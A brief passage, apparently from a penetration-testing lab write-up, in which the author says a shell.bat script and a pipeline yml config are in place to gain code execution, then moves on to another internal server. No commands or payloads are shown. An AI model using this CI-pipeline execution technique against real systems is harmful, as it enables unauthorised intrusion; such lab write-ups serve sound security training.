

Now the shell.bat is ready, the yml config for running the script via pipeline is also ready, we just need to wait and we get an execution!


I will now move on to the server **inwebjw.inception.local.**

&nbsp;